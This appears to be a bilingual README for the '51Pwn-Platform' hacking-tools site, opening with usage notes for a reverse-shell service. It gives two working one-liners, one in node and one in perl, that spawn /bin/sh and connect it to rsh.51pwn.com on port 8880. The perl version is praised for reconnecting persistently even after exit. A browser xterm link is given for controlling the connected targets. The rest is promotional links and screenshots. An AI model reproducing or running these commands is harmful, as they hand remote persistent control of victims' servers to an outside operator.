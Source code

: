 * 2 start your reverse shell
  *** id is a unique identification and association between you and all reverse shell targets（id 是 唯一标识、关联你与所有reverse shell 目标之前的关联、关系）
  *** The second line is a json data, which can usually be used to collect the target's environment information and feed it back to the server. Of course you can give feedback {}。
  第二行是一个json 数据，通常可以用来收集目标的环境信息，反馈给server。当然你可以反馈一个空的{}
Note: A good reverse shell will keep reconnecting to the server even if you type exit
  注意：一个优秀的reverse shell会吃重要，即便你输入 exit 也会不断重新连接到服务器
```
node -e '(function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh", []); var client = new net.Socket(); client.connect(8880, "rsh.51pwn.com", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client);client.write("YourId\n{}\n");client.write("{}\n") }); return /a/;})();'
```
  *** 特别推荐下面的命令，经过若干 AI 的优化，可以覆盖 90% 以上的服务器上正确运行, 下面的命令明显比上面的更加优化，即便你关闭浏览器，或者输入exit，下面的代码会自动重新上线
```
  perl -e 'use Socket;while (1) {socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in(8880,inet_aton("rsh.51pwn.com")))){print S "YourId\n{}\n";open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");if (fork() == 0){exec("/bin/sh -i");}wait();}};'
```
* open your browser
  *** 注意后面的id必须和上面的一致
https://51pwn.com/indexes/xterm.html?id=YourId
 ** 注意，这个时候你什么也没有看见，没错，因为还没有目标连接上来 **

"""

# 51Pwn-Platform
51Pwn Platform

A Big Data Platform for Information Security Practitioners

ContactMe：[https://chat.51pwn.com](https://chat.51pwn.com)

Channel：51pwn

<img width="839" alt="image" src="https://github.com/hktalent/51Pwn-Platform/assets/18223385/14dd522a-c3f5-40df-94d2-1eeda7d36220">

# Online
<a href=https://51pwn.com/CyberChef/>Awesome Hacking Online Encoding, Decoding Platform</a>

https://51pwn.com/51pwn/#/

<img width="600" alt="image" src="https://user-images.githubusercontent.com/18223385/230257785-7370678f-06c0-44f7-a78c-dba3a63a6f4e.png">


https://51pwn.com/HackTools/
<div align='center'>
  <a href=https://51pwn.com/HackTools/><img alt="preview_1" src="https://github.com/hktalent/Hack-Tools/raw/51pwn/src/assets/img/preview.gif?raw=true" /></a>
</div>

<img width="478" alt="image" src="https://user-images.githubusercontent.com/18223385/206604822-a7486cff-f9d6-417a-918e-09ce5ad2b839.png">
<img width="444" alt="image" src="https://user-images.githubusercontent.com/18223385/206605600-9da7ec38-ba45-496e-9410-6a454673cc40.png">
<img width="467" alt="image" src="https://user-images.githubusercontent.com/18223385/206605674-2f4b2d37-f709-4829-94cc-bc232b85d50f.png">
